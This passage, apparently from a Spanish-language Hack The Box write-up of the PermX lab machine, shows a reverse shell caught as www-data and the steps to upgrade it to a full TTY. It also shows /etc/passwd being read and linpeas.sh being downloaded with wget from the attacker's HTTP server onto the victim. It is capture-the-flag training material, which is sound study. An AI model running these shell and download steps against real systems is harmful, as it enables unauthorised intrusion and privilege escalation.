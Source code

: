 ```bash
-e 
The file has successfully been uploaded.

-e #    Use This leter For Interactive TTY ;)  
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg
-e 
# Starting Reverse Shell On Port 4444 . . . . . . .
-e 
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.23] 37402
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 22:22:30 up 51 min,  0 users,  load average: 0.02, 0.07, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

```bash
$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

Para conseguir una bash más bonita:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ahora para encontrar información podemos usar linpeas.sh:

Iniciamos un servidor de python en la carpeta donde tenemos el linpeas
```bash
┌──(mili㉿kali)-[~/Desktop/HTB/PermX]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.23 - - [02/Oct/2024 00:46:35] "GET /linpeas.sh HTTP/1.1" 200 -
```

Y lo bajamos en la máquina víctima 
```bash
www-data@permx:/var/www/html$ wget http://10.10.14.15:8888/linpeas.sh
wget http://10.10.14.15:8888/linpeas.sh
--2024-10-01 22:46:34--  http://10.10.14.15:8888/linpeas.sh
Connecting to 10.10.14.15:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 805.61K  3.08MB/s    in 0.3s    

2024-10-01 22:46:35 (3.08 MB/s) - ‘linpeas.sh’ saved [824942/824942]

www-data@permx:/var/www/html$ ls
ls
404.html     contact.html                 img         linpeas.sh
LICENSE.txt  courses.html                 index.html  scss
READ-ME.txt  css                          js          team.html
```